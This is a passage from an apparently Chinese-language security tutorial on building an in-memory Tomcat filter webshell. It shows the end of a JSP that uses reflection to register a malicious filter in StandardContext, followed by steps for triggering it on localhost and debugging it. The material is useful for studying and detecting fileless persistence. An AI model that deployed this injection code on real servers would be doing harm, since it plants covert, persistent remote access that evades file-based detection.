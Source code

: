 ```plain

        // 将filterMap添加至filterMaps(第一位)
        standardContext.addFilterMapBefore(filterMap);

        // 创建ApplicationFilterConfig对象
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

        filterConfigs.put(myFiltername, filterConfig);

    }
    System.out.println("Success!");
} catch (Exception e) {
    e.printStackTrace();
}
%>
```

访问[http://localhost:8090/Tomcat\_memshell\_Web\_exploded/filterMemshell.jsp](http://localhost:8090/Tomcat_memshell_Web_exploded/filterMemshell.jsp)  
执行完第一行得到 ApplicationContextFacade 对象  
[![](assets/1701606655-7281c2a0b36b2f07cf4f4d7738112520.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231111135052-45e245da-8056-1.png)  
执行到最后  